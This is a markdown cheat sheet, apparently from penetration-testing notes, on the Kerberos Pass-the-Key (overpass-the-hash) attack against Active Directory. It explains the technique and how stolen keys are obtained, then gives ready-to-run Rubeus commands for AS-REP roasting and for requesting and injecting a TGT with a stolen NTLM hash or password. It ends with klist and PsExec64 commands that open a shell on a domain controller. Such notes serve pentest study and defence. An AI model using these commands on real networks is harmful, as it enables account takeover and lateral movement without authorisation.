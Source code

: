 ### Pass-the-Key - Works on Kerberos Only

#### Pass-the-Key attack
**Pass-the-Key is a Kerberos attack** where an ***attacker uses a stolen user key instead of the password to obtain a valid TGT*** for the target and access services. This is incredibly useful in environments where ***NTLM is disabled***.

#### Keys
When the ***RC4 protocol is enabled***, the ***RC4 key is the user's NTLM hash*** and the technique is more commonly known as the `overpass-the-hash`. The ***attack is useful where NTLM is disabled*** and only Kerberos authentication is used.

In environments where RC4 is disabled, other Kerberos keys (DES, AES-128, or AES-256) can be passed instead. This technique is known as `pass-the-key`. The only ***difference between the `overpass-the-hash` and `pass-the-key` are the key used***; the actual technique is exactly the same.

#### Obtaining Keys
There are many ways to obtain keys. Here are two:
- If a user's password is obtained through dumping or hash cracking, all the keys can be derived from it.
- Keys can be dumped from machines where the target user has a session.

#### Get User's Hash
```powershell
Rubeus.exe asreproast
```
#### Performing the attack
**Rubeus to request a TGT using another `user's key**`
```powershell
Rubeus.exe asktgt /domain:<domain FQDN> /user:<target username> /rc4:<target user's NTLM hash> /ptt
```

**Rubeus to request a TGT using another `user's password`**
```powershell
Rubeus.exe asktgt /domain:<domain FQDN> /user:<target username> /password:<password> /ptt
```

- Rubeus will use the supplied RC4 (NTLM) hash automatically to request a TGT from the KDC, and with `/ptt` it will attempt to inject the returned ticket into your current session.

**Verify the ticket been loaded into memory**
```powershell
klist
```

**Once the ticket has been loaded into memory, simply use `PsExec64` to connect to the target**
```powershell
PsExec64 \\dc01.ktown.local cmd
```
***Note: To force the usage of Kerberos, you must use hostnames when connecting to a service. Using IP addresses will make the authentication mechanism fall back to `NTLM` and the attack will fail.***